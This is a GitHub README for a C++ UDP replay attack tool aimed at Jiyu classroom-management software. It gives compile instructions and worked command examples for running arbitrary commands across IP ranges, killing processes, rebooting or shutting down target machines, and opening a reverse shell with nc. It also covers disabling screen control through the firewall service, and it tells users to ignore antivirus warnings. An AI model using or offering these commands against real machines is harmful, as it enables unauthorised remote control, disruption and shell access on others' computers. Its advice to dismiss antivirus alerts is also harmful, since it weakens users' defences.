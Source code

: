 # Jiyu-UDP-Attack-Cpp
A UDP replay attack code for Jiyu, written in C++.

中文文档见 [README_zh.md](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/README_zh.md)

## Note
It may be misreported by antivirus software because it calls some system firewall services. Just ignore and add trust.  
If you get garbled code after compiling and running, please try to change the encoding and compile. `main.cpp` works fine with GB 2312 encoding.

## Compile
Required system: Windows  
Required minimum C++ version: C++11

Note: All the headers are already added into main.cpp manually. Therefore, you just need to copy/download main.cpp and compile it directly instead of adding header files.

Compile command:

### MSVC
```bash
cl main.cpp /std:c++14 /Fe:main.exe
```

### MinGW
```bash
g++ main.cpp -o main.exe -std=c++14 -lws2_32
```

Note when using GCC / MinGW compiler:  
Make sure Windows-related library is in the library directory.  
Do not forget the compile argument `-lws_32`. If not using command line, add this argument to the compile options in your IDE.

## Usage
Start UI by simply run the program or call:
```bash
main
```

Or, run on command line:
```bash
main [-h(--help) |
  [-i(--ip) <IP>] [-p <Port>] [-m(--msg) <Message> | -c <Command>]
  [-l <Loop Count>] [-t <Loop Time Interval>]
  [-e <Extra Option>] [-ncport <NC Port>]]
```

Arguments:
| Argument | Description | Default |
| -------- | ----------- | ------- |
| `-h(--help)` | Show help text. | |
| `-i(--ip) <IP>` | Specify the IP of target. | |
| `-p <Port>` | Specify which port to listen to. | 4705 |
| `-m(--msg) <Message>` | Specify the message to send. | |
| `-c <Command>` | Command to run on target machine. | |
| `-e <Extra Option>` | Load extra option. | |
| `-l <Loop Count>` | Specify the loop count of the command. | 1 |
| `-t <Loop Time Interval>` | Specify the loop's interval time of the command, in seconds. | 22 |
| `-n(--ncport) <NC Port>` | Specify which port for `nc` command to listen to. | 8888 |

Available options for `<Extra Option>` of `-e` argument:
| Option | Description |
| ------ | ----------- |
| `r` | Reboot the target machine. |
| `s` | Shutdown the target machine. |
| `g` | Get your current IP address and the port which Student Terminal listens to. |
| `nc` | Reverse shell. Needs Internet access on target machine. Use command `exit` to exit. |
| `break` | Get out of screen control. Needs administrator access. |
| `continue` | Recover screen control. |

Target IP available for `<IP>` of `-i(--ip)` argument:
- A direct IP. eg. `192.168.1.1`
- An IP segment, ends with `/24`. eg. `192.168.1.1/24`
- An IP segment, represented by `-`. eg. `192.168.1.2-10`  
Note:  
Only the last number of an IP is availble to be a segment.  
This is illegal: `192.168.1-80.1`

### Examples
1. Get your IP address and the port which Student Terminal listens to:

```bash  
main -e g
```

2. Get out of screen control:

Needs administrator access, mainly for MpsSvc.
```bash
main -e break
```

3. Recover screen control:

```bash
main -e continue
```

4. Send message:

Send a piece of message "Hello!" to target machine with IP `192.168.1.1`:
```bash
main --ip 192.168.1.1 --msg "Hello!"
```

If the port which Student Terminal listens to is **4605**, use `-p <Port>` to specify the port. Send a piece of message "Hello!" to target machine with IP `192.168.1.12`:
```bash
main -i 192.168.1.12 -p 4605 -m "Hello!"
```

5. Run command:

Pop up a calculator for target machines with ip `192.168.1.12` to `192.168.1.137`:
```bash
main -i 192.168.1.12-137 -c calc.exe
```

If the command to run has space in it, use a pair of quote to wrap:
```bash
main -i 192.168.1.1 -c "taskkill /f /im chrome.exe"
```

6. Reverse shell:

The ip of target machine should **not** be a segment.
```bash
main -i 192.168.1.1 -e nc
```

7. Shutdown and reboot:

Shutdown:
```bash
main 192.168.1.1 -e s
```

Reboot:
```bash
main 192.168.1.1 -e r
```

8. Loop command:

Send message to target machines with IP `192.168.1.1` to `192.168.1.254`, continue to execute after 50s, totally 3 times:
```bash
main -i 192.168.1.1/24 -m "Hello!" -l 3 -t 50
```

## Header Guide & Contributing Guide
If you hope to call related interfaces of this code in your own code, or develop the source code by yourself, you can focus on related code in the `header` branch, which codes in different modules are separated in different headers, and refer others by headers.
See header docs: [Jiyu-UDP-Attack-Cpp Header Docs](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/header/docs/en.md)

If you want to contribute to this code, you can raise an issue or make a pull request on the `header` branch~ If the pull request is merged, `main.cpp` will be updated in time!

## About
Inspired by: [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack)

## License
[MIT License](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/LICENSE)
